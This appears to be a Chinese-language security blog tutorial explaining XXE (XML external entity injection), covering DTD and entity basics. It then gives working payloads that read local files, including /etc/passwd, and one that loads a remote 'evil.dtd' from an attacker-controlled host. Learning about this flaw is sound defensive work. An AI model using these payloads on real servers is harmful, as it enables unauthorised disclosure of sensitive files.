 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      XXE外部实体注入               # 标题 
subtitle:   XXE
date:       2020-04-04              # 时间
author:     z0L1n                      # 作者
header-img: img/post-bg-2015.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
    - 基础
---
```


## 0x00 XXE他是谁？
XXE：XML external entity injection,全称外部实体注入，也就是注入漏洞，下面大概展示一下：
<ag> 用户输入 </ag>   此时我们的用户输入如果为 111</ag><ag>222,那么这个语句为```<ag>111</ag><ag>222</ag>```，此时超出预期用户输入，便就是XML注入。
我们的XXE要注重于外部实体注入，那么先学习一下相关基础知识：

XML 文档有自己的一个格式规范，这个格式规范是由一个叫做 DTD（document type definition） 的东西控制的，他就是长得下面这个样子：  

```
<?xml version="1.0"?>//这一行是 XML 文档定义
<!DOCTYPE foo [
<!ELEMENT x ANY>
<!ENTITY xxe "jjjj">
]>
<x>&xxe;<x>
```
这里定义了XML 的根元素foo，然后下面有子元素x，其中实体为xxe。
当我们使用的时候只需添加一行
```<x>&xxe；</x>```即可引用，输出的时候&xxe;被替换为jjjj。

这里就要说一下啦外部实体和内部实体，以上就是内部实体了，外部实体为以下例子：
```<!ENTITY  xxe SYSTEM "file://c:/test.dtd">```  
引用外部实体的话，我们一旦对资源有修改都会自动更新，还有一种方法引用公用DTD

```
<!DOCTYPE   根元素名  PUBLIC “DTD标识名” “公用的DTD的URI”>
```

这里简单拓展一下通用实体和参数实体：
通用实体：用 &实体名; 引用的实体，他在DTD 中定义，在 XML 文档中引用，```ps：<!ENTITY xxe "jjjj">···<x>&xxe;</x>```
参数实体：
(1)使用 % 实体名(这里面空格不能少) 在 DTD 中定义，并且只能在 DTD 中使用 %实体名; 引用
(2)只有在 DTD 文件中，参数实体的声明才能引用其他实体
(3)和通用实体一样，参数实体也可以外部引用
例子如下：

```
<!ENTITY % an-element "<!ELEMENT mytag (subtag)>"> 
<!ENTITY % remote-dtd SYSTEM "http://somewhere.example.org/remote.dtd"> 
%an-element; %remote-dtd;
```
学习到这里我们就应该知道实体构造是个怎么回事了，接下来根据表哥的例子来学习一波：
1、payload：
```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE roottag [
<!ENTITY % start "<![CDATA[">   
<!ENTITY % goodies SYSTEM "file:///d:/test.txt">  
<!ENTITY % end "]]>">  
<!ENTITY % dtd SYSTEM "http://ip/evil.dtd"> 
%dtd; ]> 
<roottag>&all;</roottag>
其中evil.dtd内容为：
<?xml version="1.0" encoding="UTF-8"?> 
<!ENTITY all "%start;%goodies;%end;">
```

这里CDATA标志能让中括号里面的内容当做元素字符数据的常量部分，而不是xml标记，读取文件中的特殊字符。另外如果直接读取文件中的内容可以使用这个用法：

```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE roottag [
<!ENTITY goodies SYSTEM "file:///d:/test.txt">  
]> 
<roottag>&goodies;</roottag>
```

XXE会出现的地方：
在现在前后端分离的时代，一般来说后端负责接收要传入的数据，然后经过一系列的黑盒运算之后将结果以json格式返回给前端，我们的后端可以使api接口也可以是后台代码，xxe经常出现在api接口能解析客户端传过来的xml，而且能直接外部实体引用，例子简单说一下：
我们发出一个http请求后：

```
POST /xxxx HTTP/1.1
Host: xxxxxxx
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:57.0) Gecko/20100101 Firefox/57.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept:xxxxxx
<?xml version="1.0" encoding="utf-8"?> 
<roottag>XML</roottag>
```

服务器的XML处理器解析后返回：添加成功！！！
我们尝试传入恶意代码：

```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE roottag [
<!ENTITY goodies SYSTEM "/etc/passwd">  
]> 
<roottag>&goodies;</roottag>
```

那么这样服务器的XML处理器解析后，如果没有经过严格的安全审核，会导致服务器端返回敏感文件信息，危害性大。



   
继续 研读：：：：



